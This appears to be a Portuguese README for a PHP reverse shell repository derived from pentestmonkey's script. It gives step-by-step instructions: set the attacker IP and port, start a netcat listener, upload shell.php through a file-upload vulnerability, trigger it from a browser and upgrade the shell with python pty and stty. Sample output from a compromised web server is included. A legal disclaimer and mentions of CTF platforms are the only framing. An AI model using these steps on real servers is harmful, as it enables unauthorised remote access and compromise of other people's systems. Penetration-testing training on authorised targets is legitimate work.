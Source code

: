 # reverse_shell
Este script permite que um invasor obtenha um shell interativo em um servidor web alvo que execute PHP. Ele funciona estabelecendo uma conexão de volta para a máquina do invasor.
PHP Reverse Shell

Uma implementação de um reverse shell em PHP, baseada no popular script do pentestmonkey.

Este script permite que um invasor obtenha um shell interativo em um servidor web alvo que execute PHP. Ele funciona estabelecendo uma conexão de volta para a máquina do invasor.
⚠️ Aviso Legal

    Este script deve ser usado apenas para fins educacionais e em ambientes autorizados. A utilização desta ferramenta em sistemas aos quais você não possui permissão explícita é ilegal. O autor e os contribuidores não se responsabilizam por qualquer mau uso ou dano causado por este programa. Use por sua conta e risco.

Como Usar

Para executar este reverse shell, você precisa de duas partes: a máquina do invasor (onde você receberá a conexão) e a máquina do alvo (o servidor web que executará o script).
Passo 1: Configuração do Script

Antes de tudo, você precisa editar o arquivo shell.php para configurar o endereço IP e a porta do ouvinte (sua máquina).

Abra o arquivo e altere as seguintes linhas:

$ip = '10.10.10.10';  // <<< MUDE PARA O SEU IP DE ATACANTE
$port = 4444;       // <<< MUDE PARA A PORTA QUE VOCÊ VAI OUVIR

    $ip: Coloque o endereço IP da sua máquina. Se você estiver em uma VPN para uma plataforma de CTF (como HackTheBox ou TryHackMe), use o IP da sua interface tun0. Você pode encontrá-lo com o comando ifconfig tun0 ou ip addr show tun0.

    $port: Escolha uma porta que não esteja em uso na sua máquina. Portas como 4444, 1337 ou 9001 são comuns.

Passo 2: Iniciar o Ouvinte (Listener) na Sua Máquina

Na sua máquina de ataque, você precisa de um "ouvinte" para esperar e "pegar" a conexão que o servidor alvo enviará de volta. A ferramenta mais comum para isso é o Netcat (nc).

Abra um terminal e execute o seguinte comando, substituindo <SUA_PORTA> pela mesma porta que você configurou no script:

nc -lvnp <SUA_PORTA>

    -l: Modo de escuta (listen).

    -v: Modo verboso (mostra mais informações).

    -n: Não resolver DNS (mais rápido).

    -p: Especifica a porta.

Seu terminal ficará parado com uma mensagem como listening on [any] 4444.... Isso significa que ele está pronto e aguardando a conexão.
Passo 3: Executar o Shell no Servidor Alvo

Esta é a parte que depende do cenário:

    Faça o upload do arquivo shell.php (já configurado) para o servidor web alvo. Geralmente, isso é feito explorando uma vulnerabilidade de upload de arquivos.

    Acesse o script através do seu navegador. Navegue até a URL onde o arquivo foi salvo. Por exemplo:
    http://<IP_DO_ALVO>/uploads/shell.php

Passo 4: Obtenha o Acesso!

No momento em que você acessar o script no navegador, ele será executado no servidor. O servidor então se conectará de volta à sua máquina.

Olhe para o seu terminal onde o Netcat está rodando. Você deverá ver uma mensagem de conexão e, em seguida, um prompt de comando ($), que é o terminal do servidor alvo!

$ whoami
www-data
$ ls -la
.
..
index.html
shell.php

Melhorando o Shell (Shell Interativo)

O shell que você recebe do Netcat por padrão não é totalmente interativo (as setas, o autocompletar com Tab e o Ctrl+C podem não funcionar corretamente). Para "estabilizar" o shell e torná-lo totalmente funcional, siga estes passos:

    No shell do Netcat, execute o seguinte comando (pressupondo que o Python esteja instalado no alvo):

    python3 -c 'import pty; pty.spawn("/bin/bash")'

    Se o python3 não funcionar, tente com python.

    Na sua máquina local, pressione Ctrl+Z para colocar o processo do Netcat em segundo plano.

    Ainda na sua máquina local, execute o seguinte comando para ajustar seu terminal:

    stty raw -echo; fg

    Pressione Enter uma ou duas vezes. Pronto! Agora você tem um shell totalmente interativo.

Créditos

Este script é uma implementação popular do conceito de reverse shell, amplamente divulgado e mantido pela comunidade de segurança, com a versão original creditada a pentestmonkey.net.
